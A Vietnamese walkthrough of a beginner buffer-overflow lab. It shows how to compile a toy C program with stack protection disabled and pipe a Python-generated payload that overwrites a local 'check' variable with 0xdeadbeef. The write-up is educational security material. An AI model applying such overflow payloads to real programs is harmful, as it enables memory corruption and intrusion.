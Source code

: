 ### Chi tiết Buffer-overflow trên file .c
***
#### Mục đích của bài này là dùng buffer-overflow để đổi giá trị của biến 'check' thành 0xdeadbeef
Xem qua code ta có thể thấy lỗ hỏng nó đến từ hàm fget(buf, 45, stdin). Vì vậy ta sẽ dùng buffer-overflow để làm tràn biến buf xuống phần của biến check và cái phần được tràn vào biến check sẽ là giá trị 0xdeadbeef

![image](https://github.com/user-attachments/assets/363d2764-dee7-4b4c-895e-db767115cba4)

***
#### Các bước thực hiện
* Bước 1: Biên dịch file
  ```
  gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2
  ```
* Bước 2: Điểm qua stackframe

  
  ![image](https://github.com/user-attachments/assets/72d3f459-132e-4053-b7fd-f4ebdea0f608)




  ta thấy mảng buf chứa tối đa 40 bytes nên ta cần truyền vào input 40 kí tự ngẫu nhiên và truyền thêm 4 bytes giá trị 0xdeadbeef nữa để đè lên giá trị hiện tại của biến check là ta có thể thay đổi thành giá trị mới 
* Bước 3: Thực hiền truyền input
  ```
  echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde')") | ./bof2.out
  ```
  Kết quả:
  ![image](https://github.com/user-attachments/assets/d02baa67-03e4-494b-ad39-37fa0634c695)


  => Thành công
